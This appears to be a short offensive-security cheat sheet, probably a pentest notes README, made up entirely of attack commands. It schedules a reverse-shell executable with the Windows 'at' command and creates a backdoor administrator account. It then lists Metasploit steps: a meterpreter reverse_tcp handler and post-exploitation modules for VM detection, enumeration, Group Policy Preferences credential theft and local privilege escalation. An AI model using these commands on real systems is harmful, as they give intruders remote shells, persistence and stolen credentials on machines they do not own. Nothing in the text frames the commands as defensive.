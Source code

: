 ## at Command and Sticky Keys

```
at 10:23 C:\reverse_shell.exe
at /delete

net user /add <username> <password>

net localgroup administrator /add <username>
```

## Metasploit Modules

```
# Multi Handler
use exploit/multi/handler

# Payload
set payload windows/meterpreter/reverse_tcp

# Check if machine is a VM ?
# checkvm
use post/windows/gather/checkvm

# Enumerate Applications
use post/windows/gather/enum_applications

# Enumerate Internet Explorer
use post/windows/gather/enum_ie

# Enumerate Chrome
search enum_chrome

# Enumerate SNMP
use post/windows/gather/enum_snmp

# Enumerate Shares
use post/windows/gather/enum_shares

# Enumerate Logged on Users
use post/windows/gather/enum_logged_on_users

# Enumerate GPP
use post/windows/gather/credentials/gpp

# Enumerate Service Permissions
use exploit/windows/local/service_permissions

# Local Exploit Suggester
use post/multi/recon/local_exploit_suggester
```
